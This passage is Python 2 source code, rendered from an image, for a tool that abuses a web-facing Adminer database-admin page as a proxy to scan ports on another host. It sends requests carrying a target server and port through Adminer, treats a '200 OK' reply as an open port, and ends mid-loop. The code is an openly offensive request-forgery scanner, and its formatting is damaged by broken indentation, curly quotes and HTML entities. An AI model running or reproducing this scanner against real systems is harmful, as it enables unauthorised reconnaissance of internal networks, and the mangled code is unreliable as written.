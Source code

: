 while True:
    RES=s.recv(512)
    if RES.find('Forbidden')!=-1:
        print 'Forbidden 403'
        s.close()
        return None
    if RES.find('401 Authorization Required')!=-1:
        print '401 Authorization Required'
        s.close()
        return None
    ver = re.findall(r'&lt;span&gt;(.*)&lt;/span&gt;',RES,re.DOTALL|re.MULTILINE)
    if not RES:
        s.close()
        return None
    if ver:
        print 'Your Adminer '+ ver[0] + ' works for us now.'
        s.close()
        return ver

s.close()
return None 
```

def scan(ADMINER,ADMINER_PORT,ADMINER_URI,TARGET,PORTS_TO_SCAN,PRINT_CLOSED,USE_SSL):

global MAX_TIME,port_range

RES=’’

```
print 'scanning ports: %s ' % str(port_range[0])+'to ' + str(port_range[-1])+' ...'

for aPort in port_range: 
     aPort=str(aPort)

     try:
         s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
         s.settimeout(MAX_TIME)
         s.connect((ADMINER,ADMINER_PORT))

         if USE_SSL:
            s=ssl.wrap_socket(s, keyfile=None, certfile=None, server_side=False, cert_reqs=ssl.CERT_NONE, ssl_version=ssl.PROTOCOL_SSLv23) 

         s.send('GET /'+ADMINER_URI+'/?server='+TARGET+':'+aPort+'&amp;username= HTTP/1.1\r\nHost: '+TARGET+'\r\n\r\n')

     except Exception as e:
          print str(e)
          s.close()
          return

     while True:
          try:
             RES=s.recv(512)
             ###print RES
             ###Should see HTTP/1.1 403 not 200
             if RES.find('HTTP/1.1 200 OK')!=-1:
                 print 'port '+aPort +  ' open'
                 port_lst.append(aPort+' open')
                 s.close()
                 break
